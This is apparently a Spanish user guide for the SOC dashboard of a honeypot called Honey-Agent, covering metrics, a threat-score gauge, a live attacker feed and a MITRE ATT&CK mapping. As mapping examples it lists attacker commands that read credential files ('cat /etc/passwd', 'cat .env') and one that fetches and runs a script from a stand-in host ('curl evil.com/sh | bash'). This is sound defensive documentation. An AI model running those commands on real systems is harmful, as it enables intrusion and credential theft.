


# **Guía de Usuario: Panel de Monitoreo del SOC (Dashboard)**

* **Documento Público:** Manual de Operador y Analista de Seguridad
* **Audiencia:** Analistas SOC (Nivel 1 y 2), Operadores de Infraestructura y Auditores
* **Versión:** 1.0 (Pública)

---

## **1. Acceso y Visión General del Panel**

El **SOC Dashboard** de Honey-Agent es una interfaz web interactiva en tiempo real (construida sobre Streamlit y Plotly) diseñada para permitir a los defensores observar las acciones del intruso en directo sin interactuar con él.

* **Dirección de Acceso Local:** `http://localhost:8501`
* **Dirección en Red Interna:** `http://<IP_DEL_SERVIDOR>:8501`

---

## **2. Componentes de la Pantalla de Monitoreo**

### **2.1. Tarjetas de Métricas Globales (KPIs de Defensa Activa)**
En la parte superior de la pantalla se muestran 4 indicadores clave:
1. **Total de Sesiones Interceptadas:** Contador histórico de atacantes que han ingresado al señuelo.
2. **Atacantes Conectados Ahora:** Sesiones SSH activas en este preciso momento.
3. **Tiempo Total Desgastado (Dwell Time):** Horas y minutos acumulados que los atacantes han perdido interactuando con el sistema falso.
4. **IPs en Cuarentena:** Número de direcciones hostiles bloqueadas actualmente en el firewall.

### **2.2. Velocímetro del Threat Score (Puntaje de Amenaza)**
Muestra una aguja semicircular que cambia de color según la agresividad del intruso:
* **0% a 39% (Verde - Normal):** El atacante está explorando quién es y qué sistema operativo tiene (`whoami`, `uname -a`).
* **40% a 79% (Naranja - Sospechoso):** El atacante busca contraseñas, claves privadas SSH o archivos `.env`.
* **80% a 100% (Rojo - Crítico / Aislamiento):** Intento de descargar exploits o ejecutar código destructivo. Al tocar el 80% o ante un payload crítico, el sistema bloquea automáticamente la IP.

### **2.3. Terminal en Vivo (Live Attacker Feed)**
Una consola oscura que reproduce en tiempo real exactamente lo que el atacante está escribiendo y viendo en su propia pantalla. Permite al analista ver sus errores tipográficos, comandos ejecutados y cómo espera pacientemente durante los retardos del Tarpit.

### **2.4. Mapeo Táctico MITRE ATT&CK**
Cada comando es etiquetado al instante con su código estándar internacional:
* `uname -a` $\to$ **T1082 (System Information Discovery)**
* `cat /etc/passwd` $\to$ **T1003 (OS Credential Dumping)**
* `cat .env` $\to$ **T1552.001 (Credentials in Files)**
* `curl evil.com/sh \| bash` $\to$ **T1059.001 (Unix Shell Script Execution)**

---

## **3. Protocolo de Respuesta ante Alertas para el Operador del SOC**

Cuando una sesión pasa a estado **Rojo (CONTAINED & BLOCKED)**:

### **Controles de Intervención Manual:**
* **Botón 'Aislar Manualmente':** Si el analista observa un patrón sospechoso antes de que el Threat Score llegue al 80%, puede pulsar este botón para disparar la regla de firewall de inmediato.
* **Botón 'Desbloquear IP':** Si la conexión pertenecía a una prueba interna autorizada del equipo de Red Team, el analista puede retirar la regla del firewall con un solo clic.
